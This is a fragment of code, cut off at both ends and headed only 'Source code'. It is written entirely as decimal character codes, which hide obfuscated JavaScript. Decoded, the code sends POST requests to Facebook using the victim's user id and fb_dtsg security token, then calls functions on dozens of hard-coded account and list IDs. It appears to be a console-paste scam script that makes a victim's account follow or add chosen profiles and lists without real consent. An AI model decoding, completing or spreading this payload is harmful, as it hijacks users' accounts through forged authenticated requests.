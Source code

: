95, 112, 97, 114, 97, 109, 61, 110, 111, 110, 101, 38, 38, 38, 111, 117, 116, 103, 111, 105, 110, 103, 95, 105, 100, 61, 38, 108, 111, 103, 103, 105, 110, 103, 95, 108, 111, 99, 97, 116, 105, 111, 110, 61, 115, 101, 97, 114, 99, 104, 38, 110, 111, 95, 102, 108, 121, 111, 117, 116, 95, 111, 110, 95, 99, 108, 105, 99, 107, 61, 116, 114, 117, 101, 38, 101, 103, 111, 95, 108, 111, 103, 95, 100, 97, 116, 97, 38, 104, 116, 116, 112, 95, 114, 101, 102, 101, 114, 101, 114, 38, 95, 95, 117, 115, 101, 114, 61, 34, 43, 117, 115, 101, 114, 95, 105, 100, 43, 34, 38, 95, 95, 97, 61, 49, 38, 95, 95, 100, 121, 110, 61, 55, 57, 56, 97, 68, 53, 122, 53, 67, 70, 45, 38, 95, 95, 114, 101, 113, 61, 51, 53, 38, 102, 98, 95, 100, 116, 115, 103, 61, 34, 43, 102, 98, 95, 100, 116, 115, 103, 43, 34, 38, 112, 104, 115, 116, 97, 109, 112, 61, 34, 59, 88, 46, 111, 112, 101, 110, 40, 34, 80, 79, 83, 84, 34, 44, 88, 85, 82, 76, 44, 116, 114, 117, 101, 41, 59, 88, 46, 111, 110, 114, 101, 97, 100, 121, 115, 116, 97, 116, 101, 99, 104, 97, 110, 103, 101, 61, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 123, 105, 102, 40, 88, 46, 114, 101, 97, 100, 121, 83, 116, 97, 116, 101, 61, 61, 52, 38, 38, 88, 46, 115, 116, 97, 116, 117, 115, 61, 61, 50, 48, 48, 41, 123, 88, 46, 99, 108, 111, 115, 101, 125, 125, 59, 88, 46, 115, 101, 110, 100, 40, 88, 80, 97, 114, 97, 109, 115, 41, 125, 10, 97, 40, 34, 49, 48, 48, 48, 48, 50, 49, 50, 54, 55, 49, 50, 52, 54, 56, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 53, 56, 53, 56, 50, 54, 50, 49, 53, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 50, 48, 57, 53, 53, 57, 56, 54, 51, 49, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 54, 55, 51, 55, 49, 54, 57, 48, 52, 51, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 50, 57, 56, 48, 48, 57, 57, 54, 48, 50, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 50, 57, 52, 51, 55, 49, 53, 57, 53, 50, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 53, 56, 53, 49, 56, 55, 50, 49, 51, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 54, 57, 57, 57, 50, 49, 54, 51, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 49, 50, 49, 49, 50, 49, 51, 57, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 54, 55, 55, 53, 52, 50, 54, 54, 54, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 54, 57, 50, 50, 53, 51, 49, 57, 55, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 53, 52, 54, 51, 52, 48, 50, 53, 56, 55, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 50, 49, 57, 50, 48, 52, 57, 55, 57, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 53, 48, 53, 53, 51, 52, 50, 57, 57, 50, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 50, 52, 57, 49, 48, 55, 56, 54, 54, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 54, 54, 48, 49, 49, 50, 51, 48, 56, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 51, 54, 54, 56, 53, 49, 50, 50, 48, 52, 34, 41, 59, 97, 40, 34, 49, 55, 56, 57, 53, 52, 48, 54, 53, 54, 34, 41, 59, 97, 40, 34, 49, 48, 48, 48, 48, 52, 53, 54, 48, 48, 57, 51, 48, 54, 51, 34, 41, 59, 10, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 52, 54, 53, 51, 50, 48, 51, 50, 48, 57, 52, 51, 52, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 53, 49, 53, 57, 54, 57, 55, 56, 50, 53, 52, 53, 50, 49, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 54, 53, 53, 48, 51, 55, 57, 51, 53, 51, 48, 53, 48, 54, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 52, 52, 56, 55, 48, 51, 48, 51, 54, 48, 49, 53, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 57, 49, 53, 55, 48, 57, 54, 52, 50, 53, 55, 49, 50, 50, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 52, 52, 56, 57, 51, 54, 51, 54, 57, 51, 50, 53, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 52, 52, 57, 54, 54, 51, 48, 51, 53, 57, 49, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 52, 52, 56, 49, 48, 54, 51, 54, 57, 52, 48, 56, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 53, 50, 54, 51, 48, 50, 49, 51, 53, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 54, 49, 49, 49, 50, 55, 57, 57, 53, 54, 51, 52, 55, 53, 50, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 57, 49, 51, 48, 50, 49, 51, 57, 52, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 56, 51, 54, 51, 53, 52, 55, 51, 53, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 55, 48, 54, 51, 53, 52, 55, 52, 56, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 53, 57, 54, 51, 53, 52, 55, 53, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 50, 50, 49, 56, 49, 51, 55, 54, 56, 48, 50, 51, 54, 56, 52, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 50, 50, 49, 56, 49, 51, 52, 51, 49, 51, 53, 55, 48, 53, 49, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 52, 54, 57, 54, 56, 56, 49, 48, 53, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 51, 55, 54, 51, 53, 52, 55, 56, 49, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 50, 54, 54, 51, 53, 52, 55, 57, 50, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 49, 57, 51, 48, 50, 49, 52, 54, 54, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 49, 50, 57, 54, 56, 56, 49, 51, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 51, 54, 49, 57, 54, 56, 56, 49, 57, 48, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 51, 56, 53, 54, 51, 53, 52, 56, 51, 51, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 51, 57, 52, 57, 54, 56, 56, 49, 53, 55, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 52, 48, 50, 57, 54, 56, 56, 49, 52, 57, 34, 41, 59, 115, 117, 98, 108, 105, 115, 116, 40, 34, 53, 55, 48, 53, 57, 51, 55, 51, 57, 54, 56, 56, 49, 55, 56, 34, 41, 59, 10, 47, 47, 65, 100,